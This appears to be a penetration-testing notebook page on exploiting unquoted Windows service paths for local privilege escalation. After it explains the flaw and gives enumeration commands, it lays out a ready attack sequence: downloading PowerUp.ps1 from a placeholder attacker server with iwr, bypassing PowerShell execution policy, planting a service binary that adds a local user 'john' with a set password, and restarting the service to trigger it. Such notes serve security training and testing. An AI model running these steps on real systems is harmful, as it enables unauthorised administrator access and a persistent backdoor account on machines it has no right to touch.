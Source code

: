 ```yaml
---
description: This attack relies on windows find an executable path when it's Unquoted.
---
```


# Unquoted Service Paths

## Introduction

When the service starts the `CreateProcess` function execute, this function receives as a parameter   `lpApplicationName` which is used to specify the path of the binary file.\
If the provided path is unquoted and include space, Then the windows service will interpreted it in various ways.

For example the path **`C:\Program Files\program folder\binary.exe`** will used in the following order:&#x20;

```
C:\Program.exe
C:\Program Files\program.exe
C:\Program Files\program folder\binary.exe
```

## Enumeration

Searching for vulnerable services:

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName
```

```batch
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

Checking permission to create files in execute paths:

```batch
icacls "<path>"
```

The table below describes the permissions definitions **`icacls`** results:

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

## Exploit

The process is pretty similar to [service-binary-hijacking.md](service-binary-hijacking.md "mention")

1. [#creating-the-malicious-binary](service-binary-hijacking.md#creating-the-malicious-binary "mention")
2. [#triggering-the-execution](service-binary-hijacking.md#triggering-the-execution "mention")

## Automated Process

It is possible to automate the process using well known tool called `PowerUp` from `PowerSploit` Collection:

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

Downloading PowerUp.ps1:

```powershell
iwr -uri http://<attacker_http_server>/PowerUp.ps1 -Outfile PowerUp.ps1
```

Bypassing Execution Policy:

```batch
powershell -ep bypass
```

Importing PowerUp.ps1:

```powershell
. .\PowerUp.ps1
```

Enumerate services with unquoted paths:

```powershell
Get-UnquotedService
```

Exploiting by creating a malicious binary (the default behavior is to create a new local user called _john_ with the password _Password123!_)

```powershell
Write-ServiceBinary -Name '<service_name>' -Path "<binary_path>"
```

Triggering the exploit by restarting the service

```powershell
Restart-Service <service_name>
```

## References

{% embed url="https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md" %}
UnquotedServicePath
{% endembed %}
